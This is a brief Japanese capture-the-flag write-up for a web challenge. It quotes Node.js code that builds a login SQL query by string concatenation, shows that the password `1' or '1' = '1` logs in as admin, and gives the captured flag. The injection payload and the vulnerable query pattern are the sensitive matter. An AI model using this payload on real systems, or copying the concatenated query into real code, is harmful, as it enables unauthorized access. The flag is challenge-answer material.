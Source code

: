 # Writeup

https://orm-bad.mc.ax/ にアクセスする。

ページのソースコードが与えられており、以下のSQL文を実行するようになっている。

```js
db.all("SELECT * FROM users WHERE username='" + req.body.username + "' AND password='" + req.body.password + "'", (err, rows) => {
```

Username: `admin`

Password: `1' or '1' = '1`

と入力したところ、adminでログインすることができ、フラグが得られた。

![](img/2021-07-10-12-15-12.png)

<!-- flag{sqli_overused_again_0b4f6} -->
